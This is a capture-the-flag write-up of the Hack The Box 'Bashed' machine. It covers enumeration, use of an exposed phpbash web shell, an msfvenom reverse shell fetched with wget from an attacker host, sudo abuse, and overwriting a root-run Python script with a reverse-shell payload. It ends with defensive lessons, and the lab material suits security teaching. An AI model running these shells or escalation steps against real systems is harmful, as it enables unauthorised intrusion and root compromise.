

### Summary
This was a pretty quick box, but for some reason, I always find boxes where you hijack an admin script running via root's cron fun to try. There are so many fun tricks to get a shell. A great list of reverse shells is here:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Enumeration

```bash
root@kali:/home/kali/htb/bashed# nmap -sC -sV -p- -O -oN nmap_full 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 00:12 EDT
Nmap scan report for 10.10.10.68
Host is up (0.055s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.72 seconds

```

### Port 80 - HTTP

There's a blog describing a php bash console.



It appears we're looking for a file called phpbash.php. This seems a good use case for ffuf.

```bash
root@kali:/home/kali/htb/bashed# ffuf -w /opt/wordlists/common.txt -u http://10.10.10.68/FUZZ/phpbash.php -fs 42 -c -v

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ/phpbash.php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 42
________________________________________________

[Status: 403, Size: 307, Words: 22, Lines: 12]
| URL | http://10.10.10.68/.htaccess/phpbash.php
    * FUZZ: .htaccess

[Status: 403, Size: 307, Words: 22, Lines: 12]
| URL | http://10.10.10.68/.htpasswd/phpbash.php
    * FUZZ: .htpasswd

[Status: 403, Size: 302, Words: 22, Lines: 12]
| URL | http://10.10.10.68/.hta/phpbash.php
    * FUZZ: .hta

[Status: 200, Size: 8151, Words: 3407, Lines: 216]
| URL | http://10.10.10.68/dev/phpbash.php
    * FUZZ: dev

```

### Exploitation

Visiting http://10.10.10.68/dev/phpbash.php, We are now the www-data user.

```bash
www-data@bashed
:/var/www/html/dev# whoami

www-data
www-data@bashed
:/var/www/html/dev# uname -a

Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed
:/var/www/html/dev# cat /etc/*release*

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

```


```bash
user.txt
2c281f318555dbc1b856957c7147bfc1

```

### Privilege Escalation

Viewing all the hidden files in /home/arrexel, it seems this user has used sudo successfully.

```bash
www-data@bashed
:/home/arrexel# ls -alh

total 36K
drwxr-xr-x 4 arrexel arrexel 4.0K Dec 4 2017 .
drwxr-xr-x 4 root root 4.0K Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3.7K Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4.0K Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4.0K Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt

```

The passwd file contains another user called scriptmanager.

```bash
[00;31m[-] Contents of /etc/passwd:[00m
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash

```

Since this is a php shell, and non-interactive, we should create a more comfortable shell to get to work.

```bash
root@kali:/home/kali/htb/bashed# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f elf -o shell

```

I stage the shell with python, and use wget to download it to /var/tmp.

```bash
www-data@bashed:/var/tmp# wget http://10.10.14.2/shell
--2020-06-13 22:07:51-- http://10.10.14.2/shell
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'shell'

0K 100% 19.3M=0s

2020-06-13 22:07:51 (19.3 MB/s) - 'shell' saved [194/194]

```

There is a small problem with this webshell. It doesn't seem to parse + symbols correctly, so I use an alternate chmod command to set the binary as executable. Then, since this webshell seems like it might be running and terminating processes right away, I background the shell execution with an &.

```bash
www-data@bashed:/var/tmp# chmod +x shell

chmod: invalid mode: 'x'
Try 'chmod --help' for more information.
www-data@bashed:/var/tmp# chmod 0755 shell
www-data:/var/tmp# ./shell &

```

My netcat listener catches the shell, and I use python to make it a pty.

```bash
root@kali:/home/kali# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 59264
python -c 'import pty; pty.spawn("/bin/sh")'
$

```

There is an interesting file in /scripts.

```bash
$ ls -alh /scripts
ls: cannot access '/scripts/..': Permission denied
ls: cannot access '/scripts/test.py': Permission denied
ls: cannot access '/scripts/test.txt': Permission denied
ls: cannot access '/scripts/.': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
-????????? ? ? ? ?            ? test.py
-????????? ? ? ? ?            ? test.txt

```

Something seems to be really screwed up with permissions on these files. I try to cat the files but get a permission denied. Enumerating further, I notice www-data can run commands as scriptmanager.

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

I can spawn another shell as scriptmanager to try and view the files.

```bash
$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/tmp$ ls -alh /scripts
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 13 22:25 test.txt

```

The files are now readable. Also the test.txt file is owned by root, which is interesting. I look through the cron jobs but don't actually see a cronjob for this script. Something is executing this python script as root.

```bash
scriptmanager@bashed:/var/tmp$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/var/tmp$ cat /scripts/test.txt
cat /scripts/test.txt
testing 123!

```

What if we change the python script to create a shell instead? I take some python code from PayloadsAllTheThings and tweak it a bit.

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```bash
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")

```

Then I serve it up via a smbserver.py and overwrite the test.py file.

```bash
scriptmanager@bashed:/scripts$ wget http://10.10.14.2/shell.py
--2020-06-13 22:57:01--  http://10.10.14.2/shell.py
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 190 [text/plain]
Saving to: ‘shell.py’

shell.py            100%[===================>]     190  --.-KB/s    in 0s      

2020-06-13 22:57:01 (20.9 MB/s) - ‘shell.py’ saved [190/190]

scriptmanager@bashed:/scripts$ mv shell.py test.py

```

I open a netcat listener, and in a few seconds, the reverse shell connects.


### Defensive Lessons Learned
Security through obscurity gets a bad rap, but it isn't enough, especially when you're sharing a web shell publicly.

The web shell gave me a low-privilege shell, and chance to escalate privileges. There should be authentication in front of any type of shell or remote terminal.

Then, an admin script was running as root, but a low-privilege user was allowed to edit the script via sudo privileges. 

Ideally, any service accounts such as www-data should have privileges confined to just the files and services they need to access, and sudo permissions should be restricted. 

### Offensive Lessons Learned
Always check sudo -l, and keep your eyes open for any lazy admin scripts that might be available to hijack.